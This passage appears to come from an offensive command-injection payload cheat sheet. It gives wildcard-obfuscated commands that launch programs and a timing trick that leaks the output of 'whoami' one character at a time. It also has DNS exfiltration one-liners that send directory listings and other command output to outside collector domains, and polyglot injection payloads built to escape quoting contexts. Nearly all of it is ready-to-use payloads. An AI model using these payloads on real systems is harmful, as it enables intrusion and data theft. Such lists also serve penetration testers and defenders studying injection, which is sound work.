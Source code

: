 #### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```


## Data Exfiltration

### Time based data exfiltration

Extracting data : char by char

```powershell
swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

### DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in


## Polyglot Command Injection

A polyglot is a piece of code that is valid and executable in multiple programming languages or environments simultaneously. When we talk about "polyglot command injection," we're referring to an injection payload that can be executed in multiple contexts or environments.

* Example 1:
  ```powershell
  Payload: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

  # Context inside commands with single and double quote:
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  ```
* Example 2: 
  ```powershell
  Payload: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

  # Context inside commands with single and double quote:
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  ```
